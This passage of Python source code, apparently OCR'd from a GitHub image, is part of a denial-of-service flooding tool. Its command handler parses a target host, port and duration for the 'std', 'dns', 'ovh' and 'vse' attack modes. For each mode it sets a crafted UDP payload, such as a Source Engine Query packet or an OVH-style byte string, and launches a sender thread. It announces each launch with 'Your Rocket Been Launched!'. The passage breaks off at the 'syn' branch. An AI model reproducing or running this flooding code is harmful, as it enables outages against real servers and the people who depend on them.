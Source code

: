				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x73\x74\x64\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "dns":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					payload = b"\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00"
					threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "ovh":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
						sinput, host, timer, port = sin.split(" ")
						socket.gethostbyname(host)
						payload = b"\x00\x02\x00\x2f"
						threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
						print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "vse":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
						sinput, host, timer, port = sin.split(" ")
						socket.gethostbyname(host)
						payload = b"\xff\xff\xff\xffTSource Engine Query\x00"
						threading.Thread(target=stdsender, args=(host, port, timer, payload)).start()
						print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "syn":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else: